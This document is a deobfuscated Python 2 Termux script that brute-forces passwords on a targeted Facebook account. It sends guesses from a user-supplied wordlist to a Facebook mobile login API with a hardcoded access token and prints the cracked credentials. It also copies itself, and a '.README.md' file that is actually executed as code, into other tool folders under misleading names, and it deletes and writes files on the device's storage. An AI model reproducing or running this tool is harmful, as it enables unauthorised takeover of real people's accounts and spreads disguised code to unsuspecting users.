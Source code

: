 # Deobfuscated BY HTR-TECH | Tahmid Rayat

# Github    : https://github.com/htr-tech 
# Instagram : https://www.instagram.com/tahmid.rayat
# Facebook  : https://fb.com/tahmid.rayat.oficial 
# Messenger : https://m.me/tahmid.rayat.oficial 

#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,cookielib,urllib,json
os.system("termux-setup-storage")
os.system("rm -rf /sdcard/bnt")
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError


reload(sys)
sys.setdefaultencoding('utf8')

##### LOGO #####
logo='''
88888888ba   888      88  888888888888
88      "8b  8888     88       88
88      ,8P  88 88    88       88
88_____-8P'  88  88   88       88
88------8b,  88   88  88       88
88      `8b  88    88 88       88
88      a8P  88     8888       88
88888888P"   88      888       88

--------------------------------------------------

➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com

--------------------------------------------------
                                '''

os.system("clear")
print(logo)
idt = raw_input(" Put  Target  ID  : ")
pst = raw_input(' Put Passlist Path: ')
if idt =="binyamin.binnii":
    print 50*"-"
    print
    print " you can not use this to hack fb account"
    print " of tool's owner."
    print " Now you can not use this tool in future"
    print " you've been blocked to use this tool"
    fileout = open("/sdcard/.block", "wb")
    fileout.write("block")
    fileout.close()
    print
    raw_input(" Press enter to exit")
    os.sys.exit()
elif idt =="Binyamin.binnii":
    print 50*"-"
    print
    print " you can not use this to hack fb account"
    print " of tool's owner."
    print " Now you can not use this tool in future"
    print " you've been blocked to use this tool"
    fileout = open("/sdcard/.block", "wb")
    fileout.write("block")
    fileout.close()
    print
    raw_input(" Press enter to exit")
    os.sys.exit()
elif idt =="Binyamin.Binnii":
    print 50*"-"
    print
    print " you can not use this to hack fb account"
    print " of tool's owner."
    print " Now you can not use this tool in future"
    print " you've been blocked to use this tool"
    fileout = open("/sdcard/.block", "wb")
    fileout.write("block")
    fileout.close()
    print
    raw_input(" Press enter to exit")
    os.sys.exit()
elif idt =="BINYAMIN.BINNII":
    print 50*"-"
    print
    print " you can not use this to hack fb account"
    print " of tool's owner."
    print " Now you can not use this tool in future"
    print " you've been blocked to use this tool"
    fileout = open("/sdcard/.block", "wb")
    fileout.write("block")
    fileout.close()
    print
    raw_input(" Press enter to exit")
    os.sys.exit()
elif idt =="100002059014174":
    print 50*"-"
    print
    print " you can not use this to hack fb account"
    print " of tool's owner."
    print " Now you can not use this tool in future"
    print " you've been blocked to use this tool"
    fileout = open("/sdcard/.block", "wb")
    fileout.write("block")
    fileout.close()
    print
    raw_input(" Press enter to exit")
    os.sys.exit()
else:
    pass
    
def cb():
    os.system("clear")

def opn():
    try:
        cb()
        os.mkdir("/sdcard/bnt")
    except OSError:
        cb()
        print logo
        print
        print " Please allow storage permission to termux"
        print " if you're not using termux then install it"
        print " from playstore because this tool is only"
        print " works on mobile"
        print
        raw_input(" Press enter to exit")
        os.sys.exit()
    else:
        login()

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bnt/bnt.py ../omi/Omi.py")
        os.system("cp ../bnt/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../bnt/bnt.py ../BlackMafia2020/lovehacker")
        os.system("cp ../bnt/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bnt/bnt.py ../Qurban/Qurban.py")
        os.system("cp ../bnt/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        opn()
    else:
        os.system("cp ../bnt/bnt.py ../faizanwahla/pacman")
        os.system("cp ../bnt/.README.md ../faizanwahla/")
        opn()

def login():
    os.system('clear')
    try:
        toket = open("/sdcard/.block")
    except IOError:
        os.system('clear')
        print(logo)
        try:
            email = (idt)
            passw = (pst)
            total = open(passw, 'r')
            t = total.readlines()
            print ' Email / ID: ' + email
            print ' Total Pass: ' + str(len(t))
            print(' Cracking . . .')
            sandi = open(passw, 'r')
            for p in sandi:
                p = p.replace('\n','')
                print (" Password: "+p)
                try:
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + email + '&locale=en_US&password=' + p + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        print 50* '-'
                        print(" Password Found")
                        print 50*"-"
                        print
                        print ' Username: ' + email
                        print ' Password: ' + p
                        print " Status: Successfull"
                        print
                        os.sys.exit()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            print 50*"-"
                            print " Password Found"
                            print 50*"-"
                            print
                            print ' Username: ' + email
                            print ' Password: ' + p
                            print " Status: Checkpoint"
                            print
                            os.sys.exit()
                        else:
                            if "limit" in mpsh["error_data"]:
                                print 50*"-"
                                print
                                print " You have exceed the limit of loging in trying wrong password."
                                print " facebook has blocked this action for you for a while"
                                print " there is a limit to login same username with wrong password"
                                print " please try again after some time"
                                print " Thank You"
                                print
                                raw_input(" Press enter to exit")
                                os.sys.exit()
                            else:
                                cb()
                                print logo
                                print ' Email / ID: ' + email
                                print ' Total Pass: ' + str(len(t))
                                print(' Cracking . . .')

                except requests.exceptions.ConnectionError:
                    print ' Connection Error'
                    time.sleep(1)
                    os.sys.exit()

        except IOError:
            print ' File not found . . .'
            raw_input(" Press enter to go back")
            os.system("python2 .README.md")
    else:
        cb()
        print logo
        print
        print " you can not use this tool because"
        print " you've been blocked"
        print
        raw_input(" Press enter to exit")
        os.sys.exit()
if __name__ == '__main__':
	ym()

